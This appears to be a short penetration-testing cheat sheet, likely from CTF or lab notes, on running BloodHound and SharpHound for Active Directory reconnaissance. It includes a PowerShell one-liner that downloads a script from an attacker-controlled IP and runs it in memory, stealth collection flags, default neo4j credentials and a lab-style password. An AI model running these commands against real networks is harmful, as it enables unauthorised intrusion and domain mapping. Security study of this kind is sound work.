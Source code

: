 ####  [bloodhound - for domain controllers](https://github.com/BloodHoundAD/BloodHound)
> [SharpHound.exe](https://github.com/BloodHoundAD/SharpHound3)


```
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.64/
SharpHound.ps1');Invoke-BloodHound -CollectionMethod All
## or

./BloodHound.bin --no-sandbox
locate neo4j | grep auth # delete to reset password
neo4j console # user:pass = neo4j:neo4j
# upload SharpHound and extract generated zip file - .\SharpHound.exe -c all --zipfilename hellothere.zip --encryptzip --stealth
# mark owner as owned
# show shortest path
# show path from owned principles
# nslookup any new domain objects found
# Any writedacl permissions / Account Operators / Group Permissions / account creation
# Exchange Server Group Permissions
```

#### Bloodhound with python
```
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d box.local -dc dc01.box.local -ns $(cat ip)
```